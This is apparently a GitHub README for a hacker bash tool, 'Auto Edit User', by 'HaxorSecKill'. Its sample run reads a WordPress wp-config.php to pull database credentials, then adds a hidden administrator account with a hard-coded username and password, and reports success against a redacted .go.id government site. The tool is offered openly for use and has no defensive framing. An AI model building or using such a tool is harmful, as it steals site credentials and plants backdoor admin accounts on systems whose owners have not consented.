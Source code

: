 ![alt text]([https://raw.githubusercontent.com/mrcakil/Penetration-Revolution/master/test.png](https://raw.githubusercontent.com/HaxorSecInfec/wp-audit/main/Screenshot%202024-03-01%20024507.jpg))

# Auto Edit User v1
### Version : 1.1
### Author : HaxorSecKill

#### Run
```
root@HaxorSec:~# bash auto

   _   _   _   _   _   _   _   _     _   _   _   _
  / \ / \ / \ / \ / \ / \ / \ / \   / \ / \ / \ / \
 ( A | u | t | o | E | d | i | t ) ( U | s | e | r )
  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/   \_/ \_/ \_/ \_/

 Coded By: HaxorSecKill Infection

Path Your Find WP-CONFIG.PHP: /home/Your-User/public_html
Your Username: haxorsecurity

[+] Getting Config From /home/Your-User/public_html/wp-config.php
[*] dbname: [redacted] |dbuser: [redacted] |dbpassword: [redacted] |table_prefix: [redacted]
[+] Trying Added Username and Password: haxorsecurity | HaxorSecInfec
[+] Your ID: 7
[+] Url Login : https://[redacted].go.id/wp-login.php
[+] Successfull AddUser admin!
```

### Enjoy!
### Bug ? Please Report issue or contact : mrcakil@programmer.net
